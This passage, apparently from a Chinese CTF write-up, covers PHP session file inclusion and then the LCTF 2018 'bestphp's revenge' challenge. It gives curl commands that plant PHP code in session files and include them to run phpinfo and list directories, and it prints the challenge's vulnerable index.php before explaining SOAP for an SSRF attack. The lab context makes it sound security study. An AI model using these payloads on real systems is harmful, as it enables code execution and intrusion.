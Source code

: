     curl -v -X POST -d "name=<?=phpinfo();?>" http://vps_ip:port/?function=session_start&save_path=/tmp

再去包含对应的session

    ?function=extract&file=/tmp/sess_jisv70lep6v1nfokagdll4scs7

得到


[![img](https://p3.ssl.qhimg.com/t0163dfa112b4a2322f.png)](https://p3.ssl.qhimg.com/t0163dfa112b4a2322f.png)

尝试读取目录

```
curl -v -X POST -d "name=<?=var_dump(scandir('./'));?>" http://vps_ip:port/?function=session_start&save_path=/tmp
```

包含文件

```
?function=extract&file=/tmp/sess_3b624no3ucdj27un5idq57jta0
```

可以成功列目录

[![img](https://p3.ssl.qhimg.com/t018eb738f6f6676f81.png)](https://p3.ssl.qhimg.com/t018eb738f6f6676f81.png)
##PHP session反序列化+SOAP+SSRF漏洞综合利用

用最近LCTF一道WEB题分析，原题目bestphp’s revenge
index.php
```
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>
```
盗用一张原题目的图片，
flag.php
[![img](https://p0.ssl.qhimg.com/t0105f01419067557d8.png)](https://p0.ssl.qhimg.com/t0105f01419067557d8.png)
原题代码非常少，但是可以知道SSRF,由题目知需满足以下两点条件：
1）访问127.0.0.1/flag.php
2）cookie可控，改成我们的php_session_id
关于这两点的利用，需要构造一个可以控制cookie，同时又具备SSRF的能力。这里就需要用到一个内置类SOAPClient,通过此类进行SSRF,往下分析之前先对SoapClient进行一个简单的脑补。
###SoapClient基本概念
什么是SOAP？
SOAP,简单对象访问协议是交换数据的一种协议规范，是一种轻量的、简单的、基于XML（标准通用标记语言下的一个子集）的协议。
SOAP、WSDL(WebServicesDescriptionLanguage)、UDDI(UniversalDescriptionDiscovery andIntegration)之一， soap用来描述传递信息的格式， WSDL 用来描述如何访问具体的接口， uddi用来管理，分发，查询webService 。
    WebService是一种跨平台，跨语言的规范，用于不同平台，不同语言开发的应用之间的交互。比如在Windows Server服务器上有个C#.Net开发的应用A，在Linux上有个Java语言开发的应用B，B应用要调用A应用，或者是互相调用。用于查看对方的业务数据。这个时候，如何解决呢？
WebService就是出于以上类似需求而定义出来的规范：开发人员一般就是在具体平台开发webservice接口，以及调用webservice接口。每种开发语言都有自己的webservice实现框架。
而SOAP作为webService三要素SOAP 可以和现存的许多因特网协议和格式结合使用，包括超文本传输协议（HTTP），简单邮件传输协议（SMTP），多用途网际邮件扩充协议（MIME）。
***SOAP的组成***
一条 SOAP消息的组成：一个包含有一个必需的 SOAP 的封装包，一个可选的 SOAP 标头和一个必需的 SOAP 体块的 XML 文档。
SOAP消息格式：
